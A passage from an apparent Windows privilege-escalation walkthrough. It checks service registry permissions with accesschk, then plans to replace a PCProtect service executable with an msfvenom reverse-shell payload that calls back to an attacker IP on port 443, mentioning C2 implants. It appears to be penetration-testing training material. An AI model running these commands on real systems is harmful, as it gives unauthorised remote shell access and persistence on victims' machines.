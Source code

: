 We can view the permissions of the service using the `accesschk` tool:

```powershell
PS C:\Users\user> C:\Tools\SysinternalsSuite\accesschk.exe /accepteula -kvuqsw "HKLM\System\CurrentControlSet\Services" >> \\192.168.119.130\share\services.txt
```

The `services.txt` file should have stored the output of the previous command and it should have returned us the permissions we have for the target service:

```txt
HKLM\System\CurrentControlSet\Services\EventLog\Application\SecurityService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
	KEY_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
	KEY_ALL_ACCESS

HKLM\System\CurrentControlSet\Services\SecurityService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
	KEY_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
	KEY_ALL_ACCESS
```

The output indicates that only the Administrators group and the NT AUTHORITY\SYSTEM have full access to the registry keys of this service.

```powershell
PS C:\Users\user> whoami
desktop-bn\user

PS C:\Users\user> whoami /groups | findstr /i 'Administrators'
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
```

Since we are part of the Administrators group, we can exploit this by replacing "SecurityService.exe" with our preferred payload or implant and wait for execution upon reboot.

For this demonstration, I will use an msfvenom-generated payload.

```shell
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f exe -o reverse.exe
```

> Note: In the real-world you would replace it with an implant or an encrypted payload of a C2.

We'll create a backup of the original service executable/binary:

```powershell
copy "C:\Program Files (x86)\PCProtect\SecurityService.exe" "C:\Program Files (x86)\PCProtect\SecurityService-Backup.exe"
```
